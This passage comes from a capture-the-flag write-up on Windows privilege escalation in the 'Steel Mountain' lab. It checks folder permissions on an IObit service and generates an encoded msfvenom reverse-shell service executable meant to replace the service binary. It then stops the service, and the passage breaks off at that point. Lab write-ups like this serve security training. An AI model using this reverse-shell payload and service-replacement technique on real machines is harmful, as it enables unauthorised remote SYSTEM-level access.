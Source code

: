 ```
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\Program Files (x86)\IObit>icacls "Advanced SystemCare"
icacls "Advanced SystemCare"
Advanced SystemCare STEELMOUNTAIN\bill:(I)(OI)(CI)(RX,W)
                    NT SERVICE\TrustedInstaller:(I)(F)
                    NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                    NT AUTHORITY\SYSTEM:(I)(F)
                    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                    BUILTIN\Users:(I)(RX)
                    BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                    CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

<br />

Looks like this is indeed an interactive service and our user has read, write and execute permissions on the containing folder, meaning we can proceed to replace it with a reverse shell and restart it.

<br />
<br />

## 5. Privilege escalation without Metasploit

<br />

Create a Windows reverse shell payload using `msfvenom` as instructed in Task 3.

```
msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

<br />

Use the relevant `sc` command, also provided on the task, to stop the service on the target machine.

```
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
